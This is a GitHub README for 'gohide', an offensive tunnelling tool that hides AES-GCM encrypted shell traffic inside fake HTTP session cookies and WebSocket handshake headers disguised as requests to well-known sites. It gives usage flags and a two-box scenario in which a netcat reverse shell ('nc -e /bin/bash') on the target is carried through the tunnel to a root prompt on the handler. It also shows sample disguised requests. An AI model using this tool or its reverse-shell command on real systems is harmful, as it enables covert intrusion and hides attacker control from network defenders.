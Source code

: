 # gohide 

Tunnel TCP port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above.

**Usage**
```
root@WOPR-KALI:/opt/gohide# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -k openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: run with '-k openssl passwd -1 -salt ok | md5sum' to derive key from password without exposing to command line (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r 127.0.0.1:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide -f 0.0.0.0:9091 -r 127.0.0.1:8081 -l 127.0.0.1:9090 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

```
**Obfuscation Samples**

websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```
http-client
- Session cookie header contains AES-GCM encrypted content
```
GET /news/api/latest HTTP/1.1
Host: cdn-tbn0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://www.bbc.co.uk/
Connection: keep-alive
Cookie: Session=R7IJ8y/EBgCanTo6fc0fxhNVDA27PFXYberJNW29; Secure; HttpOnly
```
http-server
- Set-Cookie header contains AES-GCM encrypted content.
```
HTTP/2.0 200 OK
content-encoding: gzip
content-type: text/html; charset=utf-8
pragma: no-cache
server: nginx
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
cache-control: no-cache, no-store, must-revalidate
expires: Thu, 21 Nov 2019 01:07:15 GMT
date: Thu, 21 Nov 2019 01:07:15 GMT
content-length: 30330
vary: Accept-Encoding
X-Firefox-Spdy: h2
Set-Cookie: Session=gWMnQhh+1vkllaOxueOXx9/rLkpf3cmh5uUCmHhy; Secure; Path=/; HttpOnly

```

none
```
8JWxXufVora2FNa/8m2Vnub6oiA2raV4Q5tUELJA
```
Future
- Fix up error handling.
- Add TLS.

Enjoy~
